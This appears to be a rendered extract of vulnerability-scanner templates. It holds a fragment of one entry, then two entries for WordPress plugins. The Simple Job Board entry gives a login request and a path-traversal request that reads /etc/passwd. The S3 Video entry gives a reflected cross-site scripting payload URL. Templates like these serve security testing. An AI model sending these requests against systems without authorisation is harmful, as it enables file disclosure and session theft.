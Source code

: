 **Type - status**
- status
    1. 200

---
# WordPress Simple Job Board \<2.9.4 - Local File Inclusion
## Description
- WordPress Simple Job Board prior to version 2.9.4 is vulnerable to arbitrary file retrieval vulnerabilities because it does not validate the sjb_file parameter when viewing a resume, allowing an authenticated user with the download_resume capability (such as HR users) to download arbitrary files from the web-server via local file inclusion.
- severity - high
- tags - authenticated,packetstorm,wp,cve2020,lfi,wordpress,wp-plugin,wpscan,cve
## Requests
### Step - 1
```
POST /wp-login.php HTTP/1.1
Host: {{Hostname}}
Origin: {{RootURL}}
Content-Type: application/x-www-form-urlencoded
Cookie: wordpress_test_cookie=WP%20Cookie%20check

log={{username}}&pwd={{password}}&wp-submit=Log+In&testcookie=1

```
### Step - 2
```
GET /wp-admin/post.php?post=372&action=edit&sjb_file=../../../../etc/passwd HTTP/1.1
Host: {{Hostname}}

```
### Matchers

**Type - regex**
- regex
    1. root:[x*]:0:0

**Type - status**
- status
    1. 200

---
# WordPress S3 Video \<=0.983 - Cross-Site Scripting
## Description
- WordPress S3 Video and before contains a reflected cross-site scripting vulnerability which allows an attacker to execute arbitrary script code in the browser of an unsuspecting user in the context of the affected site. This can allow the attacker to steal cookie-based authentication credentials and launch other attacks.
- severity - medium
- tags - cve,cve2016,wordpress,wp-plugin,xss,wpscan
## Requests
- Method - GET
### URL
- {{BaseURL}}/wp-content/plugins/s3-video/views/video-management/preview_video.php?media=%22%3E%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E%3C%22